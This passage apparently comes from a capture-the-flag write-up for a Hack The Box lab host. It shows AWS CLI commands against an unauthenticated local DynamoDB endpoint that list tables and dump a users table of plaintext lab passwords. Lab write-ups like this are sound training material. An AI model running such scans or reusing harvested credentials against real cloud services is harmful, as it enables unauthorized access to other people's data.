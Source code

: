 ```bash 
┌──(kali㉿kali)-[~]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "users"
    ]
}
```

```bash 
┌──(kali㉿kali)-[~]                                                                                                                                                                         
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users                                                                                                                
{                                                                                                                                                                                           
    "Items": [                                                                                                                                                                              
        {                                                                                                                                                                                   
            "password": {                                                                                                                                                                   
                "S": "Management@#1@#"                                                                                                                                                      
            },                                                                                                                                                                              
            "username": {                                                                                                                                                                   
                "S": "Mgmt"                                                                                                                                                                 
            }                                                                                                                                                                               
        },                                                                                                                                                                                  
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

